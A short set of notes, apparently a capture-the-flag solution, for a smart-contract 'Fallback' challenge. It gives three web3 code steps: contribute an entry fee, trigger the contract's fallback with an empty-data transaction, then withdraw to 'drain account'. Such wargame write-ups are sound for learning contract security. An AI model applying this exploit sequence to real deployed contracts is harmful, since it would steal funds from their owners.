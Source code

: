 Fallback notes
1. entry fee
      // transfer some funds
      const entryFee = 13;
      await game.contribute({ from: player, value: entryFee });

1. utilize fallback method
      // trigger fallback function
      await web3.eth.sendTransaction({
        to: game.address,
        from: player,
        value: 1,
        data: "",
      });

1. drain account
      // drain account
      await game.withdraw({ from: player });

